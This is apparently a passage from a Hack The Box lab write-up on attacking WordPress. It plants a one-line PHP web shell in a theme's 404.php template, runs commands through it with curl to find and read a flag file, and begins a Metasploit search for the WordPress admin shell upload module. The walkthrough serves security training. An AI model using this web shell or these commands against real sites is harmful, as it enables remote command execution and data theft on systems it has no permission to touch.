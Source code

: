 Now from theme files select the 404.php tempate

in the style.css editor you want to add this line of code 
```bash
system($_GET['cmd']);
```

it should look something like this
```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

This will allow us the attacker to execute commands via curl

example:-
```bash
Noxxsick@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

we want to find the file called flag.txt we could use this command to find it. 
```bash
kali@kali:~$ curl -X GET "http://83.136.254.199:33944/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/wp-user"
flag.txt
<SNIP>
```

to see what is in the flag.txt we would use this command:-
```bash
kali@kali:~$ curl -X GET "http://83.136.254.199:33944/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"
HTB{rc3_By_d3s1gn}
```

---------------------

## Using Metasploit to attack WordPress

To launch Metasploit we will need to run:-
```bash
msfconsole
```

For this exploit we will be using `wp_admin_shell_upload` we can search for that module with:-
```bash
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```
